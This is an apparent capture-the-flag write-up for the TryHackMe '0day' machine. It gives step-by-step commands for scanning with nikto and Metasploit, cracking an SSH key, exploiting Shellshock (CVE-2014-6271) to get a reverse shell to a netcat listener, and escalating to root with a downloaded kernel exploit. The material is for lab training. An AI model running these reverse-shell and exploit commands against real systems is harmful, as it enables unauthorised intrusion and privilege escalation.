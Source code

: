 # 0day | CTF Machine 

## Tools && Sources

1. metasploit
2. ssh2john
3. ssh
3. nikto
4. nc 
5- linpeas | `https://github.com/alauthor/Tryhackme-CTF/blob/main/0day/linpeas.sh`

## steps to get two flags 
```bash
[+] open metasploit by writing `msfconsole` in the terminal 
[+] search for ftp_version 
[+] ftp is not open | bad news  
[+] search for http_version
[+] http is open 
[+] continue searching imap_version & pop3_version & mysql_version all is down | but ssh_version 
[+] ssh is open 
[+] scan with nmap to check if there's anyother open port we missed or something . 
[+] ssh & http only opens 
[+] nikto -h http://10.10.x.x:80/
[+] there's a secret, backup, admin folders avaliable 
[+] check these folders nothing important but backup contains private key | save that key into a file call it id_rsa
[+] ssh2john id_rsa > private.hash that file will give you a password `letmein`  this password won't be necessary in the attack . so forget it  
[+] john --wordlist=/usr/share/wordlist/rockyou.txt private.hash 
[+] what else in nikto | OMG there's an exploit called shellshock | Uncommon header '93e4r0-cve-2014-6271' found
[+] google it | 93e4r0-cve-2014-6271 will lead you to a github page `https://github.com/b4keSn4ke/CVE-2014-6271`
[+] git clone https://github.com/b4keSn4ke/CVE-2014-6271
[+] cd  CVE-2014-6271 && python shellshock.py -h | it runs that way `python shellshock.py LHOST LPORT TARGET_URI`
[+] setup a netcat listener first | nc -nlvp 4444 
[+] open another terminal and put the next line and click enter . 
[+] python shellshock.py 10.8.77.235 4444 http://10.10.166.249/cgi-bin/test.cgi
[+] you've got a shell 
[+] let's make that shell flexiable 
[1] SHELL=/bin/bash script -q /dev/null
[2] python -c 'import pty; pty.spawn("/bin/bash");'
[3] CTRl + Z  
[4] stty raw -echo && fg 
[5] ENTER
[6] ENTER 
[7] export TERM=xterm
[+] cd /home | ls and there's a user called ryan | cd ryan | ls 
[+] you got a file called user.txt | cat user.txt | flag 1 
[+] go to /tmp | upload linpeas.sh file to start enumarte the machine looking for something to elevate your privileges to root
[+] Ooooh linux version is old `3.13.0-32-generic`
[+] google it | there's an exploit on exploit-db `https://www.exploit-db.com/exploits/37292`
```
## STEP-1
```bash
msfconsole
```
<img src="https://github.com/alauthor/Tryhackme-CTF/blob/main/0day/imgs/2022-07-24%2018_19_00-Kali-Linux-2020.4-vbox-amd64%20(7_11_2022)%20%5BRunning%5D%20-%20Oracle%20VM%20VirtualBox.png">
<img src="https://github.com/alauthor/Tryhackme-CTF/blob/main/0day/imgs/2022-07-24%2018_18_35-Kali-Linux-2020.4-vbox-amd64%20(7_11_2022)%20%5BRunning%5D%20-%20Oracle%20VM%20VirtualBox.png">
<img src="https://github.com/alauthor/Tryhackme-CTF/blob/main/0day/imgs/2022-07-24%2018_19_25-.png">

## STEP-2
```bash

nikto -h http://10.10.x.x:80/
```
<img src="https://github.com/alauthor/Tryhackme-CTF/blob/main/0day/imgs/2022-07-24%2018_17_59-Kali-Linux-2020.4-vbox-amd64%20(7_11_2022)%20%5BRunning%5D%20-%20Oracle%20VM%20VirtualBox.png">

## STEP-3
```bash
header exploit exist 93e4r0-cve-2014-6271 
git clone https://github.com/b4keSn4ke/CVE-2014-6271
cd CVE-2014-6271
nc -nlvp 4444
open another terminal and put command bellow into it and click enter 
python shellshock.py 10.8.77.235 4444 http://10.10.x.x/cgi-bin/test.cgi
you'll get a shell
let's spawn that shell | follow the next 7 steps and you'll got a shell 
[1] SHELL=/bin/bash script -q /dev/null
[2] python -c 'import pty; pty.spawn("/bin/bash");'
[3] CTRl + Z  
[4] stty raw -echo && fg 
[5] ENTER
[6] ENTER 
[7] export TERM=xterm
```
## STEP-4
```bash 
go to /home/ryan | cat user.txt | glag-1
then go to /tmp directory 
and upload linpeas.sh then run linpeas.sh file 
[*] `bash linpeas.sh | tee output.txt`
you'll notice that linux version is old 
search for exploit and you will find an exploit on exploit-db site | download it and upload to the victim machine using `wget`
then gcc 37292.c -o exploit 
[*] ./exploit 
run exploit using and you will get a shell 
go to root folder 
cat root.txt 
```

<img src="https://github.com/alauthor/Tryhackme-CTF/blob/main/0day/imgs/2022-07-24%2018_22_14-Kali-Linux-2020.4-vbox-amd64%20(7_11_2022)%20%5BRunning%5D%20-%20Oracle%20VM%20VirtualBox.png">
<img src="https://github.com/alauthor/Tryhackme-CTF/blob/main/0day/imgs/2022-07-24%2018_37_54-Kali-Linux-2020.4-vbox-amd64%20(7_11_2022)%20%5BRunning%5D%20-%20Oracle%20VM%20VirtualBox.png">
